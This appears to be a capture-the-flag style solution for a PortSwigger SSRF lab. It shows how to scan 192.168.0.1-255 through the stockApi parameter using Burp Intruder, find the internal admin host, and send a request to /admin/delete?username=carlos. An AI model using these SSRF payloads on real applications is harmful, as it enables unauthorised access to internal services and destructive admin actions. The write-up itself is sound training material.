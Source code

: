 # Lab: Basic SSRF against another back-end system
# https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-common-ssrf-attacks/ssrf/lab-basic-ssrf-against-backend-system
```bash
# Send the stock request to intruder.

stockApi=http://192.168.0.1:8080/admin

# Mark 1:

stockApi=http://192.168.0.§1§:8080/admin

Payload type: Numbers
From: 1
To: 255

# Start attack.

# 247 has status code 200

```

```bash
# Check response:

/delete?username=carlos

# We found how to delete carlos now send the request to the repeater.

stockApi=http://192.168.0.247:8080/admin/delete?username=carlos

# Now send the request to solve the lab.

```
